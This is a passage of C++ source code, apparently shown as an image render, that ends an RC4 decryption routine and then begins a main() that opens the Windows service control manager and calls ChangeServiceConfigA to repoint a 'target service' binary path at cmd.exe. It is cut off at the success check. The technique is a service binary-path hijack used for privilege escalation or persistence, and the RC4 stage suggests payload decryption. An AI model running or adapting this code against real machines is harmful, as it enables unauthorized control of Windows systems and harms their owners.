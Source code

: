 ```cpp

    // Key scheduling
    for (i = 0; i < 256; i++) {
        j = (j + S[i] + key[i % key_len]) % 256;
        temp = S[i];
        S[i] = S[j];
        S[j] = temp;
    }

    // Pseudo-random generation and XOR with data
    i = j = 0;
    for (size_t k = 0; k < data_len; k++) {
        i = (i + 1) % 256;
        j = (j + S[i]) % 256;
        temp = S[i];
        S[i] = S[j];
        S[j] = temp;

        data[k] ^= S[(S[i] + S[j]) % 256];
    }
}

int main() {
    // Define the service name
    const char* serviceName = "YourServiceName"; // Replace with the target service name

    // Define the path to a dummy executable
    const char* dummyBinaryPath = "C:\\Windows\\System32\\cmd.exe"; // Replace with a path that exists on the system

    // Open a handle to the service control manager
    SC_HANDLE scManager = OpenSCManagerA(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (!scManager) {
        std::cerr << "Failed to open service control manager. Error: " << GetLastError() << std::endl;
        return 1;
    }

    // Open a handle to the service
    SC_HANDLE service = OpenServiceA(scManager, serviceName, SERVICE_ALL_ACCESS);
    if (!service) {
        std::cerr << "Failed to open service. Error: " << GetLastError() << std::endl;
        CloseServiceHandle(scManager);
        return 1;
    }

    // Modify the service binary path
    BOOL success = ChangeServiceConfigA(
        service,                    // Service handle
        SERVICE_NO_CHANGE,          // Service type (no change)
        SERVICE_NO_CHANGE,          // Start type (no change)
        SERVICE_NO_CHANGE,          // Error control (no change)
        dummyBinaryPath,            // Path to the dummy service binary
        NULL,                       // Load order group (no change)
        NULL,                       // Tag ID (no change)
        NULL,                       // Dependencies (no change)
        NULL,                       // Service start name (no change)
        NULL,                       // Password (no change)
        NULL                        // Display name (no change)
    );

    if (!success) {
```